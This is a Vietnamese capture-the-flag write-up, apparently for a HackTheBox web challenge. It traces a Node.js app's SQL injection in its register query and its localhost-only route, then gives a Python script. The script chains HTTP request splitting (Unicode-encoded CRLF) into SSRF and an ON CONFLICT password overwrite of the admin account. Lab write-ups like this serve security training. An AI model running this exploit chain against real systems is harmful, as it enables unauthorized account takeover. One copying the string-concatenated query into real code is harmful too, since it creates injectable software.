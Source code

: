 ## 1. Source code:

Đầu tiên thấy trong file `index.js` có route `/login` với method `post`:
```js
router.post('/login', (req, res) => {
	let { username, password } = req.body;

	if (username && password) {
		return db.isAdmin(username, password)
			.then(admin => {
				if (admin) return res.send(fs.readFileSync('/app/flag').toString());
				return res.send(response('You are not admin'));
			})
			.catch(() => res.send(response('Something went wrong')));
	}
	
	return re.send(response('Missing parameters'));
});
```
-> Login vào tài khoản `admin` thì sẽ nhận được flag từ thư mục `/app/flag`.

Vậy tài khoản `admin` được tạo như thế nào, xem trong file `database.js` có hàm `migrate`:
```js
async migrate() {
    return this.db.exec(`
        DROP TABLE IF EXISTS users;

        CREATE TABLE IF NOT EXISTS users (
            id         INTEGER NOT NULL PRIMARY KEY AUTOINCREMENT,
            username   VARCHAR(255) NOT NULL UNIQUE,
            password   VARCHAR(255) NOT NULL
        );

        INSERT INTO users (username, password) VALUES ('admin', '${ crypto.randomBytes(32).toString('hex') }');
    `);
}
```
Như vậy username sẽ là `admin`, tuy nhiên `password` lại được tạo từ chuỗi random -> không brute-force được!

Ngoài ra ta thấy có hàm `isAdmin`:
```js
async isAdmin(user, pass) {
    return new Promise(async (resolve, reject) => {
        try {
            let smt = await this.db.prepare('SELECT username FROM users WHERE username = ? and password = ?');
            let row = await smt.get(user, pass);
            resolve(row !== undefined ? row.username == 'admin' : false);
        } catch(e) {
            reject(e);
        }
    });
}
```

Hàm trên sử dụng parameterized query nên không thể sử dụng SQLi được!

Nhưng với hàm `register` thì câu query nối chuỗi -> có thể sử dụng SQLi ở đây (._.")

```js
async register(user, pass) {
    // TODO: add parameterization and roll public
    return new Promise(async (resolve, reject) => {
        try {
            let query = `INSERT INTO users (username, password) VALUES ('${user}', '${pass}')`;
            resolve((await this.db.run(query)));
        } catch(e) {
            reject(e);
        }
    });
}
```

Quay lại hàm `migrate` trong file `database.js` để xem cấu trúc database:
```js
async migrate() {
    return this.db.exec(`
        DROP TABLE IF EXISTS users;

        CREATE TABLE IF NOT EXISTS users (
            id         INTEGER NOT NULL PRIMARY KEY AUTOINCREMENT,
            username   VARCHAR(255) NOT NULL UNIQUE,
            password   VARCHAR(255) NOT NULL
        );

        INSERT INTO users (username, password) VALUES ('admin', '${ crypto.randomBytes(32).toString('hex') }');
    `);
}
```
Ta thấy giá trị `username` là UNIQUE, nên không thể tạo thêm một tài khoản `admin` khác được. Như vậy ta sẽ phải cập nhật `password` của tài khoản admin hiện tại. Trong SQL có lệnh `INSERT ON CONFLICT` có thể giải quyết case này.

Tuy nhiên khi truy cập vào route `/register` thì báo lỗi `401`:
```
This page isn’t working
If the problem continues, contact the site owner.
HTTP ERROR 401
```

Quay lại xem route `/register` trong file `index.js`:
```js
router.post('/register', (req, res) => {

	if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
		return res.status(401).end();
	}

	let { username, password } = req.body;

	if (username && password) {
		return db.register(username, password)
			.then(()  => res.send(response('Successfully registered')))
			.catch(() => res.send(response('Something went wrong')));
	}

	return res.send(response('Missing parameters'));
});
```

Như vậy là ứng dụng chỉ cho phép thực hiện register từ ip `127.0.0.1` (localhost), khả năng cao sẽ liên quan đến lỗi SSRF.

Ngoài ra ta xem thêm ở hàm `getWeather` ở file `helpers/WeatherHelper.js`:
```js
module.exports = {
    async getWeather(res, endpoint, city, country) {
    ...
```
Hàm này nhận các tham số endpoint, city, country từ file `static/js/main.js` với giá trị như sau:
```js
const getWeather = async () => {

    let endpoint = 'api.openweathermap.org';

    let res  = await fetch('//ip-api.com/json/')
        .catch(() => {
            weather.innerHTML = `
                <img src='/static/host-unreachable.jpg'>
                <br><br>
                <h4>👨‍🔧 Disable blocker addons</h2>
            `;
        });

    let data = await res.json();

    let { countryCode, city } = data;

    ...
```

Biến data ở đây không được validate, như vậy có thể thực hiện injection vào data bằng cách lợi dụng việc trang web get api lấy thông tin thời tiết.

Ở file `package.json` ta có thể thấy được các biến config cũng như vesion của NodeJS là `"nodeVersion": "v8.12.0"`. 

Sau khi research, version này tồn tại lỗ hổng `Http request splitting`, tức là chúng ta có thể  gửi data đi kèm với HTTP header đến ip `127.0.0.1` để thực hiện update password admin, thông qua kỹ thuật CRLF injection.

Payload:
```python
import requests

url = "http://139.59.172.163:31345/api/weather"

username = "admin"
new_password = "123456"
password = f"{new_password}') ON CONFLICT(username) DO UPDATE SET password = '{new_password}';"

username_encoded = username.replace(" ", "\u0120").replace("'", "%27").replace('"',"%22") # %27='
password_encoded = password.replace(" ", "\u0120").replace("'", "%27").replace('"',"%22") # %22="

contentLength = len(username_encoded) + len(password_encoded) + 20

# \u010D = \r, \u010A = \n, \u0120 = space
test = "localhost/abc\u010D\u010A\u010D\u010APOST\u0120/register\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010A"
test = test + "Content-Length:\u0120" + str(contentLength) + "\u010D\u010A\u010D\u010A"
test = test + f"username={username_encoded}&password={password_encoded}" + "\u010D\u010A\u010D\u010AGET\u0120/?q="
 
r = requests.post(url = url, json={'endpoint': test, 'city': 'Ha Noi','country': 'VN'})
```

Login as `username=admin&password=123456`:

Flag: `HTB{w3lc0m3_t0_th3_p1p3_dr34m}`